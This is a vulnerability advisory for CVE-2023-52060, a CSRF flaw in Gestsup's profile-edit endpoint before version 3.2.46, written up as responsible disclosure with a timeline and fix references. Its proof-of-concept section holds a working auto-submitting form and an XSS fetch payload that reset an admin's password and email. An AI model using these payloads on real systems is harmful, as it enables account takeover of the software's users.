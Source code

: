 # CVE-2023-52060

## Summary

| ID                    | CVE-2023-52060                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | CSRF                                                     |
| **Title**             | CSRF on profile's information change request             |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 5.4                                                      |
| **Author**            | Sopalinge                                                |

## Description

A lack of CSRF protection in the request to edit a user's profile information in Gestsup < 3.2.46 allows attackers to perform a Cross-Site Request Forgery (CSRF) attack.

The `index.php?page=admin/user&action=edit&userid=1&tab=infos` endpoint can be exploited to craft a malicious POST request which can be used to trick users into unknowingly changing their information, including email address and password.


## Impact

An attacker could trick another user into unknowingly changing their password when visiting a malicious website. Note that the SameSite attribute is not defined which means that the behaviour will depend on the victim's browser.

Combined with [CVE-2023-52059](../CVE-2023-52059/README.md), it can be used to take over privileged accounts directly from the Gestsup application.


## Proof of concept
### CSRF

The following HTTP code can be hosted on a malicious website. A user tricked into visiting this page has a risk (depedning on multiple factors like the browser used) to have his password, email and function edited.

```
<form id="autosubmit" action="http://localhost:3010/gestsup/index.php?page=admin/user&action=edit&userid=1&tab=infos" method="POST">
    <input type="hidden" name="attachment" value="0" />
    <input type="hidden" name="language" value="fr_FR" />
    <input type="hidden" name="profile" value="4" />
    <input type="hidden" name="firstname" value="admin" />
    <input type="hidden" name="lastname" value="" />
    <input type="hidden" name="login" value="admin" />
    <input type="hidden" name="password" value="admin" />
    <input type="hidden" name="password2" value="admin" />
    <input type="hidden" name="mail" value="admin@example.com" />
    <input type="hidden" name="function" value="hacked" />
    <input type="hidden" name="modify" value="modify" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.getElementById("autosubmit").submit();
</script>
```



https://github.com/Tanguy-Boisset/CVE/assets/83412402/3bf74a94-c885-40f2-a13e-eda5334affc5



### XSS and CSRF

Using [CVE-2023-52059](../CVE-2023-52059/README.md) in the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to exploit the CSRF to change the pasword, email and function of any user viewing the ticket :

```
<img src=x onerror="fetch('./index.php?page=admin/user&action=edit&userid=1&tab=infos', {method: 'POST', headers: {'Content-Type':'application/x-www-form-urlencoded'},body: 'attachment=0&language=fr_FR&profile=4&firstname=admin&lastname=&login=admin&password=admin&password2=admin&mail=admin@example.com&function=hacked&modify=modify'})" />
```

https://github.com/Tanguy-Boisset/CVE/assets/83412402/69514524-4530-47b6-907e-0b593bd4e691


## Timeline

- 24/12/2023 : Vulnerability discovered
- 24/12/2023 : Vendor contacted
- 25/12/2023 : Official fix published
- 25/01/2024 : CVE ID attributed
- ??/01/2024 : CVE publicly disclosed


## References

- [Gestsup website](https://gestsup.fr/index.php?page=home)
- [Fixing patch](https://gestsup.fr/index.php?page=download&channel=beta&version=3.2.46&type=patch)

